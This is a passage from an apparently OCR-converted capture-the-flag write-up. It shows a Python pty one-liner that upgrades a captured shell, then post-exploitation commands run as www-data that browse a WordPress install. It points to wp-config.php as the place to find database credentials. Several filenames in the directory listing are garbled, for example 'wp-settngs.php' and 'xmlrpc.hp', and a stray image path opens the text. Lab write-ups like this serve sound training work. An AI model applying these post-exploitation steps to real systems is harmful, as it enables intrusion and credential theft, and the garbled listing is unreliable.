 ![image.png](image%2018.png)

- And successfully we got the shell
- For a interactive shell we can do this

```bash
python -c "import pty; pty.spawn('/bin/bash')"
python -c "import pty; pty.spawn('/bin/bash')"
www-data@internal:/$ 
```

---

# Post Exploitation

```bash
www-data@internal:/home$ cd /var/www/html
cd /var/www/html
www-data@internal:/var/www/html$ ls
ls
index.html  wordpress
www-data@internal:/var/www/html$ cd wordpress
cd wordpress
www-data@internal:/var/www/html/wordpress$ ls
ls
index.php        wp-blog-header.php    wp-cron.php        wp-mailphp
license.txt      wp-comments-post.php  wp-includes        wp-settngs.php
readme.html      wp-config-sample.php  wp-links-opml.php  wp-signp.php
wp-activate.php  wp-config.php         wp-load.php        wp-tracback.php
wp-admin         wp-content            wp-login.php       xmlrpc.hp

```

- Great we have found wp-config.php
- **It contains information about the database**, including its **name**, **host**, **username**, and **password**.
